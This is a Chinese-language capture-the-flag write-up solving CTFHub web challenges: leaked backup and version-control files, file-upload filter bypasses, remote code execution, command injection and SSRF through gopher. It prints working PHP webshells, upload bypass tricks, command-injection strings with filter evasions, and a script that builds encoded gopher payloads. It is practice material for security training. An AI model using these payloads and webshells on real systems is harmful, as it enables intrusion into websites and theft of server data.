CTFHub WriteUp(web)
信息泄露
1、目录遍历
根据规律构建python脚本
import requests
url = "http://challenge-eec3a48df115459e.sandbox.ctfhub.com:10800/flag_in_here/"
for i in range(5):
for j in range(5):
url_test = url + "/" + str(i) + "/" + str(j)
r = requests.get(url_test)
r.encoding = 'utf-8'
get_file = r.text
if "flag.txt" in get_file:
print(url_test)


2、PHPINFO
点开phpinfo.php，记录的php信息
CTRL+F搜索flag

深入解析：CTFHub 信息泄露通关笔记2：PHPINFO泄露 - slgkaifa - 博客园
3、备份文件下载
网站源码
提示目录和文件后缀，尝试爆破
bp抓包发到攻击器intruder
在路径/1.1将两个1设成两个payload变量，攻击模式选择集束炸弹

payloads position1-1列表添加目录

2-1添加上后缀名

开始爆破

得到响应200时的路径/www.zip
访问后下载压缩包，打开文件提示where is flag ??

注意到是文本文件，将文件名作为路径访问/flag_420015653.txt

得到flag
bak文件
提示flag在index.php当中
访问/index.php，还是一样
有些时候网站管理员可能为了方便，会在修改某个文件的时候先复制一份，将其命名为xxx.bak。而大部分Web Server对bak文件并不做任何处理，导致可以直接下载
访问/index.php.bak，弹出下载
打开就是flag
vim缓存
参考CTFHUB 信息泄露题目 备份文件下载(网站源码、bak文件、vim缓存、.DS_Store)_index.php.swp-CSDN博客
在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容
以 index.php 为例：第一次产生的交换文件名为 .index.php.swp
访问/.index.php.swp
下载文件index.php.swp，将其复制到kali，用vim编辑器打开

按R恢复，enter打开得到flag

.DS_Store
.DS_Store 是 Mac OS 保存文件夹的自定义属性的隐藏文件。通过.DS_Store可以知道这个目录里面所有文件的清单。
访问/.DS_Store
下载文件，复制到Linux
cat查看，有一个txt文件，提示有flag，加到url打开
/7fc58f94dfb00dc91c5ef3611b2e0c00.txt

4、Git泄露
当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。
Log
需要使用BugScanTeam的GitHack
克隆仓库
sudo git clone https://github.com/BugScanTeam/GitHack
进入目录，用python2执行.py文件
cd GitHack
sudo python2 GitHack.py http://www.example.com/.git
GitHack工具可还原 .git 目录中的完整仓库，工具会自动从目标 .git 目录下载文件，还原后的项目存储在 dist/目标域名/ 目录中，包含完整源代码和版本历史

还原后进入目录中
cd dist/challenge-39c106a3b227686b.sandbox.ctfhub.com_10800
再执行git log查看日志记录

注意到有add flag的记录，记下commit
执行git reset，切换到add flag版本的代码，查看库发现多出来一个文本文件，里面是flag
sudo git reset --hard f7954a8377ac4a69604af9d572d38a4a8431b110

Stash
同上一题log
最后
查看stash暂存记录
git stash list

恢复暂存记录
sudo git stash pop

或者使用git diff版本比较查看add flag版本的变化，有些版本是git log diff，后面接add flag版本的commit，commit用git log查看
git diff 97c901fa9fb925c5d94279309407e2e34c93841c

Index
同上，clone成功后访问其中的.txt文件
5、SVN泄露
当开发人员使用 SVN 进行版本控制，对站点自动部署。如果配置不当,可能会将.svn文件夹直接部署到线上环境。这就引起了 SVN 泄露漏洞。
需要使用SVN泄露的漏洞利用工具dvcs-ripper，可以直接在ctfhub搜到下载
https://github.com/kost/dvcs-ripper
放到kali当中
切换到工具目录/dvcs-ripper-master
安装依赖
sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl
将泄露的文件下载到本地目录中
./rip-svn.pl -u http://example.com:port/.svn

查看所有文件
ls -al

切换到.svn目录，再切到pristine
cd .svn
cd pristine
逐个查看里面的文件，或者搜寻ctfhub
grep -rn "ctfhub"

6、HG泄露
当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞。
dirsearch扫出.hg目录
用工具dvcs-ripper将泄露的文件下载到本地目录中
./rip-hg.pl -u http://example.com:port/.hg

显示404报错，用命令tree .hg，列出刚刚下载的网站目录

查看last-message.txt，内容add flag，提示旧版本
直接查找flag
grep -a -r flag

尝试访问/flag_2393610704.txt
curl http://challenge-205d2fc13c467b80.sandbox.ctfhub.com:10800/flag_2393610704.txt

文件上传
1、无验证
打开是个上传文件的网页
上传一句话木马用于远程连接，新建一个.php文件，内容如下
<?php @eval($_POST['123']);?>
再将文件上传
提示上传成功

提示文件路径upload/123.php

打开蚁剑连接
http://challenge-a2c63090c713408d.sandbox.ctfhub.com:10800/upload/123.php
密码就是木马里设置的123

测试成功后添加，双击打开
可以访问服务器文件，逐级往上翻找

2、前端验证
上传.php格式木马时提示不允许

右键->检查->源代码，找到JavaScript部分

前端校验只允许".jpg",".png",".gif"格式文件上传
将木马后缀修改成允许的后缀再上传，提示上传成功
但是图像文件会让靶机无法读取php代码，所以需要bp改包
用burp suite抓包发到重放器repeater
将头部Content-Disposition字段的filename改成123.php

再发送，返回上传成功
打开蚁剑，地址栏还是填upload/123.php

3、.htaccess
.htaccess文件是用于apache服务器下的控制文件访问的配置文件，因此Nginx下是不会生效的
.htaccess可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档、文件的跳转等功能。
访问靶机，尝试上传.php一句话木马，提示文件类型不匹配

查看源码，提示我们后端校验禁止上传php格式，尝试htaccess改配置

创建一个文本，写入
AddType application/x-httpd-php .png
重命文件名为.htaccess，将其上传
成功后就可以上传.png后缀的一句话木马文件，而且将.png文件当作php代码执行，意味着可以运行一句话木马
然后蚁剑连接
4、MIME绕过
浏览器通常使用MIME类型（而不是文件扩展名）来确定如何处理URL，因此Web服务器在响应头中添加正确的MIME类型非常重要。如果配置不正确，浏览器可能会曲解文件内容，网站将无法正常工作，并且下载的文件也会被错误处理。
直接上传.php后缀的一句话木马，提示文件类型不对
bp抓包，将请求体中的Content-Type字段改成
image/png

提示上传成功，路径upload/123.php
再用蚁剑连接即可
5、00截断
%00，0x00，/00都属于00截断，利用的是服务器的解析漏洞（ascii中0表示字符串结束），所以读取字符串到00就会停止，认为已经结束。
使用%00截断有两个条件
php版本小于5.3.4 magic_quotes_gpc为off状态
直接传.php木马提示文件类型不匹配，查看源码

提示白名单"jpg", "png", "gif"格式可以上传
将木马文件后缀改成.php.jpg
上传pb抓包
在header路径使用00截断

加上123.php%00

发送，返回上传成功
蚁剑连接
6、双写后缀
直接上传.php木马，提示上传成功，但路径显示文件没有后缀

查看网页源码，提示网站黑名单，包括.php，.htaccess后缀，上传后会将后缀中的敏感字删除
bp改包，将文件名改成123.pphphp

蚁剑连接123.php
7、文件头检查
直接传.php木马提示只允许上传 jpeg jpg png gif 类型的文件

添加GIF89a到木马文件头部

如果不添加gif文件头，直接上传，提示文件错误

方法一(MIME)
上传123.php，bp改包将Content-Type改成image/gif，发送，成功，连接蚁剑

方法二
上传.gif文件，再改包将filename的后缀改成.php

RCE
1、eval执行
打开靶场，eval()函数将传入的cmd参数当作php代码执行

这里直接提示可通过参数cmd传入php代码，打开cmd
curl "http://challenge-0a8ae9745c8d5abd.sandbox.ctfhub.com:10800/?cmd=system('ls+/');"

url中+代替空格，ls /查看根目录，发现目录flag_30687，cat查看
curl "http://challenge-0a8ae9745c8d5abd.sandbox.ctfhub.com:10800/?cmd=system('cat+/flag_30687');"

找到flag
也可以传入一句话木马，用webshell连接
cmd= fputs(fopen('shell.php','w'),'<?php @eval(_POST\[123\]);?\>');
2、文件包含
打开提示file传参

shell.txt内容是一句话木马
构造url
/?file=shell.txt
用蚁剑连接
找到flag
3、php://input
提示php://伪协议
打开phpinfo，允许文件包含，可以执行远程代码
bp抓包改包
头部改成post请求，使用php://input伪协议
POST /?file=php://input HTTP/1.1
请求体中创建shell.php，写入一句话木马
<?php file_put_contents('shell.php', '<?php @eval($_POST["cmd"]);?>');?>
蚁剑连接/shell.php
找到flag
4、远程包含
可以同3、php://input
如果有自己的服务器，可以传递服务器上的木马文件，再用蚁剑远程连接
5、读取源代码
?file=php://filter/resource=/flag
php://伪协议
6、CTFHub 命令注入
提示无过滤
构造payload，写入一句话木马
127.0.0.1 &echo "<?php @eval(\$_POST['123']);?>" >> shell.php
蚁剑连接
or
127.0.0.1 | ls
127.0.0.1 | cat
浏览器将内容当html处理了，查看页面源码就能看到
7、过滤cat
127.0.0.1 | ls
127.0.0.1 | more flag_30958210968888.php
查看页面源码即可
less、head、tac都可以
8、过滤空格
127.0.0.1|ls
127.0.0.1|cat$IFS$1flag_12802294047863.php
查看页面源码即可
代替空格
${IFS}
$IFS$1
<
更多：绕过空格过滤
9、过滤目录分隔符
利用';'拼接命令绕过
127.0.0.1 | ls
127.0.0.1 ; cd flag_is_here ; ls
127.0.0.1 ; cd flag_is_here ; cat flag_5422868316779.php
查看页面源码即可
10、过滤运算符
没有过滤;
127.0.0.1 ; ls
127.0.0.1 ; cat flag_1986153693728.php
查看页面源码即可
也可使用换行符%0a，替换到url中
?ip=127.0.0.1%0als
11、综合过滤练习
%0a换行符分隔命令
$IFS$1替代空格
fl*模糊匹配flag
替换url
?ip=127.0.0.1%0als
?ip=127.0.0.1%0acd$IFS$1fl*%0als
?ip=127.0.0.1%0acd$IFS$1fl*%0atac$IFS$1fl*
参考博客绕过bypass_远程命令执行绕过
SSRF
1、内网访问
题目提示：尝试访问位于127.0.0.1的flag.php
url栏已有参数
?url=_
构造payload
?url=127.0.0.1/flag.php
2、伪协议读取文件
提示web目录，一般web服务路径就是/var/www/html/
?url=file:///var/www/html/flag.php
查看页面源码即可
3、端口扫描
提示扫8000到9000的端口，那就用bp爆破
dict协议和http协议都可以用来探测端口存活
?url=dict://127.0.0.1:8000
?url=http://127.0.0.1:8000
抓包发到攻击器，添加端口部分为payload，选择数字，8000到9000
爆破完筛选响应长度
4、POST请求
dirsearch扫描目录得到两个文件/flag.php，/index.php
查看/flag.php
?url=file:///var/www/html/flag.php
打开是空白，查看源码
<?php
error_reporting(0);
if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
echo "Just View From 127.0.0.1";
return;
}
$flag=getenv("CTFHUB");
$key = md5($flag);
if (isset($_POST["key"]) && $_POST["key"] == $key) {
echo $flag;
exit;
}
?>
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form>
提示访问127.0.0.1/flag.php
key=b40bb514b81c81d8f238ba14fbd0cff5
到这先放着，看另一个文件
?url=file:///var/www/html/index.php
<?php
error_reporting(0);
if (!isset($_REQUEST['url'])){
header("Location: /?url=_");
exit;
}
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
代码直接将用户输入的 url 参数传给 cURL，攻击者可以让服务器访问任意地址
需要使用gopher协议使服务器发出请求
构造POST请求的HTTP数据包
POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
key=b40bb514b81c81d8f238ba14fbd0cff5
然后对其进行url编码，但有几点因为gopher协议本身规定
[!CAUTION]
问号（？）需要转码为URL编码，也就是
%3f回车换行要变为
%0d%0a，但如果直接用工具转，可能只会有%0a在HTTP包的最后也要加
%0d%0a，代表消息结束（具体可研究HTTP包结束）
gopher协议大佬详解
第一次编码，将post请求包构造成 gopher 链接
POST%20/flag.php%20HTTP/1.1%0d%0AHost:%20127.0.0.1:80%0d%0AContent-Type:%20application/x-www-form-urlencoded%0d%0AContent-Length:%2036%0d%0A%0d%0Akey=b40bb514b81c81d8f238ba14fbd0cff5%0d%0a
前面加上gopher://127.0.0.1:80/_
第二次编码，这个 gopher 链接是放在 ?url= 参数里的，它本身也是一个 URL
如果还是疑惑为什么要两次，大佬详解链接SSRF之gopher协议使用与URL编码转换问题 | Red的小屋
gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:%2520127.0.0.1:80%250d%250AContent-Type:%2520application/x-www-form-urlencoded%250d%250AContent-Length:%252036%250d%250A%250d%250Akey=b40bb514b81c81d8f238ba14fbd0cff5%250d%250a
或者使用python脚本urllib.parse.quote函数，
大佬gopher编码脚本
CTFHub SSRF通关笔记3-2：Gopher POST请求 原理详解与渗透实战（python脚本法）_python实现post数据生成gopher payload-CSDN博客
import urllib.parse
payload = """POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
key=b40bb514b81c81d8f238ba14fbd0cff5"""
print("[+] 构造的POST请求:")
print(payload)
print()
payload = payload.replace("\n", "\r\n")
gopher_payload = f"gopher://127.0.0.1:80/_{urllib.parse.quote(payload)}"
print("[+] Gopher URL:")
print(gopher_payload)
print()
final_url = f"?url={urllib.parse.quote(gopher_payload)}"
print("[+] 最终请求URL:")
print(final_url)
print()
得到最终请求URL
?url=gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253Db40bb514b81c81d8f238ba14fbd0cff5
5、上传文件
提示查看flag.php
发现文件上传点，先补上提交按钮，上传一个非空文件
<input type="submit" name="submit">
提交，提示从本地上传，bp抓包
将这个post请求构造成gopher 链接
HOST字段改成127.0.0.1:80
用python脚本二次编码得到payload